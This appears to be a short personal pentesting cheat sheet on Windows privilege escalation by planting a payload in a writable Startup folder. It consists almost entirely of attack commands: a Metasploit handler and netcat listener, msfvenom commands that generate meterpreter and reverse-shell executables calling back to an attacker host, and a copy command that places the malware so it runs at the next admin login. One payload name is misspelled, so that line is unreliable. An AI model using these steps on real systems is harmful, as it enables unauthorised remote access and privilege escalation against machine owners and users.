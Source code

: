 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Startup Applications|Enum]]
#### Setup Listener
```bash
# metasploit
msfconsole
use multi/handler
set lhost=<attack ip>
set lport=<port num>
run

# reverse shell
nc -nvlp <port> 
```

#### Make payload
```bash
# meterpreter shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<atack ip> LPORT=<port> -f exe -o y.exe

# vanilla reverse
msfvenom -p windwows/x64/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o y.exe
```
[[Dark Arts I/File Transfer/Windows|File transfer]] payload to target
#### Exploit
```powershell
# assuming you found that full access to the startup apps folder, just place the malware in the right place
copy y.exe "C:\ProgramData\Microsoft\WIndows\Start Menu\Programs\Startup"

# then just wait for an admin to log in or the computer to restart or whatever for the malware to be automatically run. Should get a shell after that. 
```